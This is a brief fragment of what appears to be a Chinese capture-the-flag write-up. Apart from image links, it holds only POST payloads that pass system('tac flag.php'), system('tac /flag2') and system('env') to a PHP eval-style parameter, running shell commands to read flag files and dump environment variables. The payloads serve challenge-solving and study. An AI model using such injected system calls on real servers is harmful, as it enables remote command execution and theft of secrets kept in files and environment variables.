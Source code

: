 出题人：Jay17

![image-20240413223259642](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413223259642.png)

```php
POST:
1=system('tac flag.php');
1=system('tac /flag2');
1=system('env');

```

![descript](C:/Users/26272/Pictures/media/58361a331d15d049bb7d9330cdb66df5.png)

